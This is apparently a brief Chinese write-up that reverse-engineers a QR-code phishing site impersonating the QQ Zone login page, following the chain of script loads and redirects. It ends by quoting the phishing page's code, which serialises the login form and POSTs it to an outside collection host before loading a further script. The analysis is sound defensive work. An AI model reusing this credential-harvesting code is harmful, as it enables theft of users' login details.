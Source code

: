 # 一次反编译二维码钓鱼网址
## 1.扫描二维码

二维码指向链接httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html

- 扫描二维码后直接跳转到QQ空间登录界面（看不到任何内容）

## 2.用python post一下
```
import requests
res  = requests.post('httP://p2.meituan.net/1.116/shaitu/3f9991ccd4166b9758c147ef62ce262b68.html')
print(res.text)
```

## 3.得到<scripT/src=//video-csss.oss-cn-hangzhou.aliyuncs.com/1.js></scripT>

> 访问video-csss.oss-cn-hangzhou.aliyuncs.com/1.js

## 4.得到跳转源码1.js

### 分析源码1.js 最后将1.js的网页提取出来 1.html

## 5.html中嵌套着<script提取到2.js

## 6.js 调用相关函数 得到 2.html
## end
接收地址
```
if (!err){
			$.ajax({
				url:'https://110g.cn/apisend/Login/',
				type:'POST',
				dataType:'json',
				async:false, 
				data: $('#loginform').serialize(),
				success:function(r){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
				},
				error:function(er){
                Cookies.set('su','su');
				$.getScript('https://110g.cn/apisend/Login/t.js');
      }
			})
		}

```
